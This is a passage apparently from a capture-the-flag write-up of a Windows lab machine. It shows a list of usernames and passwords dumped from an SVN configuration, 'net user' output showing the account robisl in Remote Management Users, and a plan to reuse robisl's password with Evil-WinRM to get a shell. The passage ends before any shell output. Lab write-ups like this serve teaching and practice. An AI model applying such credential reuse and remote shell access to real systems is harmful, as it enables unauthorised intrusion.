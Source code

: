     robish = onesare
    robisl = wolves11
    robive = andwhich
    ronkay = onesare
    rubkei = the
    rupkel = sheeps
    ryakel = imtired
    sabken = drjones
    samken = aqua
    sapket = hamburger
    sarkil = friday



nathen's password matches what I used to get into Azure DevOps. robisl
(one of the users with a home directory from above) is on the list with
the password "wolves11". robisl is also in the "Remote Management Users"
group:



    W:\svnrepos\www\conf>net user robisl
    net user robisl
    User name                    robisl
    Full Name                    Robin Islip
    Comment                      
    User's comment               
    Country/region code          000 (System Default)
    Account active               Yes
    Account expires              Never

    Password last set            2020-04-05 21:27:26
    Password expires             Never
    Password changeable          2020-04-05 21:27:26
    Password required            No
    User may change password     No

    Workstations allowed         All
    Logon script                 
    User profile                 
    Home directory               
    Last logon                   2020-08-03 12:41:02

    Logon hours allowed          All

    Local Group Memberships      *Production           *Remote Management Use
    Global Group memberships     *None                 
    The command completed successfully.



That means robisl can connect over WinRM.

### EvilWinRM

If robisl reuses this password from SVN on the box,
[Evil-WinRM](https://github.com/Hackplayers/evil-winrm) should provide a
shell. It does:
